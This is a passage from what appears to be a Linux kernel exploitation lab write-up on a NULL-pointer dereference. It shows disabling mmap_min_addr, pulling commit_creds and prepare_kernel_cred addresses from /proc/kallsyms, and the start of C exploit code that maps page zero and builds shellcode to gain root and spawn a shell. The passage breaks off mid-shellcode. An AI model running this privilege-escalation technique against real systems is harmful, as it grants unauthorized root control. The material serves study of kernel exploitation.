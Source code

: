 RIP is successfully changed into NULL ptr.

## Attack

NULL dereference is triggered, then. next level is just simply inserting a payload which gains root privileges to 0x0.

But, in modern LK, default mmap min address is 65536, meaning that pre-setting min address to 0 for test.

```c
zero@ubuntu:~/Desktop/LK/bug1$ sudo sysctl -w vm.mmap_min_addr=0
vm.mmap_min_addr = 0
```

And of course, getting root privileges, we need to call **commit_creds(prepare_kernel_cred(0))**.
They can get from */proc/kallsyms*

```c
zero@ubuntu:~/Desktop/LK/bug1$ sudo cat /proc/kallsyms | grep commit_creds
ffffffffb26adf00 T commit_creds
...
zero@ubuntu:~/Desktop/LK/bug1$ sudo cat /proc/kallsyms | grep prepare_kernel_cred
ffffffffb26ae2b0 T prepare_kernel_cred
...
```

Here's a simple attack code.

```c
#define _GNU_SOURCE

#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>
#include <fcntl.h>
#include <string.h>

#include <sys/types.h>
#include <sys/mman.h>

struct cred;
struct task_struct;

typedef struct cred *(*prepare_kernel_cred_t)(struct task_struct *daemon)__attribute__((regparm(3)));
typedef int(*commit_creds_t)(struct cred *new)__attribute__((regparm(3)));

prepare_kernel_cred_t prepare_kernel_cred = (prepare_kernel_cred_t)0xffffffffb26ae2b0;
commit_creds_t commit_creds = (commit_creds_t)0xffffffffb26adf00;

void get_shell() { if (getuid() == 0) system("/bin/sh"); }
void get_root() { commit_creds(prepare_kernel_cred(0)); }

int main(int argc, char *argv[]) {
	printf("\e[36m[*] Stage 1 - Allocate 0x0\n");
	
	if (mmap((void *)0, 0x1000, PROT_READ | PROT_WRITE | PROT_EXEC, MAP_ANON | MAP_PRIVATE | MAP_FIXED, -1, 0) == (char *)-1) {
	    perror("mmap()");
		return EXIT_FAILURE;
	}

    unsigned char shellcode[] = {
	    /* call get_root() */
	    0x48, 0xb8,
	    0x42, 0x42, 0x42, 0x42, 0x42, 0x42, 0x42, 0x42, // mov rax, &get_root()
```